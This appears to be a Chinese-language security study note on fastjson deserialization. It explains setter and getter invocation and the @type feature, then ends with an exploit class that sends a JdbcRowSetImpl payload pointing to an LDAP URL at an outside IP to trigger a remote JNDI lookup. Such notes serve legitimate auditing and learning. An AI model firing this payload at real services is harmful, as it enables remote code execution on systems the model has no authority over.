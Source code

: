 # fastjson代码审计

为啥会出现命令执行

定义一个student类

fastjson和普通反序列化区别

```
//不需要实现serializable 
//变量不需要不是transient
//setter /getter 不是readObject   //变量有对应的setter或者是publich或者是满足条件的getter
//sink 反射/动态类加载
```

```java
package com.exp;

public class Student {

    private String name;
    private int age;

    public Student() {
        System.out.println(" method: Student() ");
    }

    public Student(String name , int age) {
        System.out.println(" method: Student(String name , int age) ");
        this.name = name;
        this.age = age;
    }

    public String getName() {
        System.out.println(" method: getName() ");
        return name;
    }

    public int getAge() {
        System.out.println(" method: getAge() ");
        return age;
    }

    public void setName(String name) {
        System.out.println(" method: setName() ");
        this.name = name;
    }

    public void setAge(int age) {
        System.out.println(" method setAge() ");
        this.age = age;
    }
}
```

```java
package com.exp;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.serializer.SerializerFeature;

public class demo {
    //fastjson提供了两个反序列化函数：parseObject和parse，我们通过示例程序来看一下fastjson的反序列化过程
    //toJSONString将对象转成字符串
    public static void main(String[] args) {
        Student student = new Student("moonsec" , 123);
        String jsonString1 = JSON.toJSONString(student);//是将对象转化为Json字符串
        System.out.println("转成json");
        System.out.println(jsonString1);
        System.out.println("转成json @type");
        String jsonString2 = JSON.toJSONString(student, SerializerFeature.WriteClassName); //自动加入 @type
        System.out.println(jsonString2);
        System.out.println("json转对象1");
        JSONObject jsonObject=JSON.parseObject(jsonString2);
        System.out.println(jsonObject);
        System.out.println("json转对象2");
        Student student1=JSON.parseObject(jsonString2,Student.class);
        System.out.println(student1);
        System.out.println("json转对象3");
        Object obj=JSON.parse(jsonString2);
        System.out.println(obj);

    }
}
```

![image-20240701092733610](D:\图片存放位置\image-20240701092733610.png)

方式一调用了parseObject方法将json数据反序列化成java对象，并且在反序列化过程中会调用对象的setter和getter方法。

方式二调用了parseObject方法进行反序列化，并且指定了反序列化对象Student类，parseObject方法会将json数据反序列化成Student对象，并且在反序列化过程中调用了Student对象的setter方法。

方式三调用了parse方法将json数据反序列化成java对象，并且在反序列化时调用了对象的setter方法。

本来客户想简单利用 JSONObject jsonObject=JSON.parse（分析）Object(s);将普通字符串转成json对象而当用户传入{"@type":"com.exp.Student","age":123,"name":"moonsec"}就会反序列化并且调用set和get方法

**关于Feature.SupportNonPublicField参数**

以上这三种方式在进行反序列化时都会调用对象的构造方法创建对象，并且还会调用对象的setter方法，如果私有属性没有提供setter方法时，那么还会正确被反序列化成功吗？为了验证这个猜想，现在我们把Student对象的私有属性name的setter方法去掉。

从程序执行结果来看，私有属性name并没有被正确反序列化，也就是说fastjson默认情况下不会对私有属性进行反序列化。

如果需要将私有属性反序列化时，就可以调用parseObject方法指定Feature.SupportNonPublicField参数.

## 2 利用链分析

终点是这里执行了lookup函数然后这个getDatasourceName是可控的

![image-20240703095513267](D:\图片存放位置\image-20240703095513267.png)

由于fastjson会自动调用setter方法所以这个是可控的·

![image-20240703095736802](D:\图片存放位置\image-20240703095736802.png)

现在我们需要去找谁调用了connet发现这个方法调用了并且会自动调用

![image-20240703095914191](D:\图片存放位置\image-20240703095914191.png)

编写exp

```java
package com.exp;

import com.alibaba.fastjson.JSON;

public class demo3 {
    public static void main(String[] args) {

        //不需要实现serializable  序列化
        //变量不需要不是transient
        //setter /getter 不是readObject   //变量有对应的setter或者是publich或者是满足条件的getter
        //sink 反射/动态类加载
        String s="{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://101.34.84.157:8085/WVvfcmrg\",\"AutoCommit\":\"false\"}";
        JSON.parseObject(s);
    }
}

```

